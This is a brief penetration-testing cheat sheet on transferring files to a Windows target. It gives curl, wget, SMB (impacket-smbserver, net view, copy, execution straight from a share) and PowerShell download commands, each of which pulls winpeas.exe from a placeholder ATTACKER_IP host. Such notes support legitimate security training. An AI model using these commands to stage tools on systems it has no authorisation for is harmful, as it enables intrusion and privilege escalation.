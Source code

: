 # Transferring Files

### Transferring Files to a Windows Client

#### Curl

`curl http://[ATTACKER_IP]/winpeas.exe -o winpeas.exe`

#### wget&#x20;

`wget http://[ATTACKER_IP]/winpeas.exe -O winpeas.exe`

#### SMB

1. `impacket-smbserver parzival [TARGET_DIRECTORY]`
2. Validate the share is accessible: `net view [ATTACKER_IP]`
3. Copy the file to a local directory: `copy \\[ATTACKER_IP]\parzival\winpeas.exe`

#### Run the Executable Directly from SMB

`\\[ATTACKER_IP] \parzival\winpeas.exe`

#### Powershell

`(New-Object System.Net.WebClient).DownloadFile("http://[ATTACKER_IP]/winpeas.exe", "C:\Windows\Temp\winpeas.exe")`

`Invoke-WebRequest "http://[ATTACKER_IP]/winpeas.exe" -OutFile "C:\Windows\Temp\winpeas.exe"`
